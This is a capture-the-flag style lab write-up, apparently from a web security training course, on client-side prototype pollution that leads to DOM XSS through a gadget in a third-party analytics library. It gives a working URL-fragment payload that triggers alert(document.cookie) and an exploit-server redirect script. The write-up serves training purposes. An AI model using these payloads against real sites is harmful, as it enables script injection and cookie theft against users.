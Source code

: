# Client-side prototype pollution in third-party libraries
# Objective
This lab is vulnerable to DOM XSS via client-side prototype pollution. This is due to a gadget in a third-party library, which is easy to miss due to the minified source code. Although it's technically possible to solve this lab manually, we recommend using DOM Invader as this will save you a considerable amount of time and effort.

To solve the lab:

1. Use DOM Invader to identify a prototype pollution and a gadget for DOM XSS.
2. Use the provided exploit server to deliver a payload to the victim that calls `alert(document.cookie)` in their browser.


# Solution
## Analysis

|![](Images/image-32.png)|
|:--:| 
| *Used scripts* |
|![](Images/image-34.png)|
| *Used scripts - store.js* |

Source code of `store.js`:
```js
window.selectedCategoryId = -1;
window.selectedTabId = -1;
window.tabs = [1,2,3,4,5,6];
window.categories = {13371:1,13372:2,13373:3,13374:4,13375:5,13376:6};

function getTabForCategoryID(categoryId) {
    return window.categories[categoryId];
}

function changeCategory( newCategoryId) {

    if(!newCategoryId) {
        newCategoryId = 13371;
    }

    var oldTabId = selectedTabId;
    var newTabId = getTabForCategoryID( newCategoryId );

    selectedCategoryId = newCategoryId;
    selectedTabId = newTabId;

    if ( oldTabId != newTabId ) {
        var len = tabs.length;
        for ( var tabPos = 0; tabPos < len; tabPos++ ) {
            var currentTabId = tabs[ tabPos ];
            var $Tab = $( '#tab_' + currentTabId );

            if ( currentTabId == oldTabId )
            {
                $Tab.removeClass( 'active' );
            }
            else if ( currentTabId == selectedTabId )
            {
                $Tab.addClass( 'active' );
            }
        }
    }
}

$(
    function()
    {
        $( window ).bind(
            'hashchange',
            function( e )
            {
                console.log('Hash Changed ' + location.hash);
                changeCategory( $.bbq.getState( 'cat' ) );
            }
        );

        $( window ).trigger( 'hashchange' );
    }
);
```

## Exploitation
### Manual exploitation
To use DOM Invader, sink `location.hash` must be enabled.

|![](Images/image-33.png)|
|:--:| 
| *Test for prototype pollution* |

The rest of exploitation was performed using DOM Invader.

### DOM Invader exploitation
DOM Invader detected that `hitCallback` is gadget that can be used to exploit prototype pollution in `location.hash` source. `hitCallback` comes from `ga.js` library.

|![](Images/image-35.png)|
|:--:| 
| *DOM Invader - Detected sources* |
|![](Images/image-36.png)|
| *DOM Invader - Scanning for gadgets* |
|![](Images/image-37.png)|
| *DOM Invader - Scan results* |
|![](Images/image-38.png)|
| *DOM Invader - Final exploit* |

DOM Invader payload:
```
/#__proto__[hitCallback]=alert%281%29
```

Final payload:
```
/#__proto__[hitCallback]=alert(document.cookie)
```

Exploit server configuration:
```js
<script>
    document.location = "https://<id>.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)";
</script>
```

|![](Images/image-39.png)|
|:--:| 
| *Exploit server configuration* |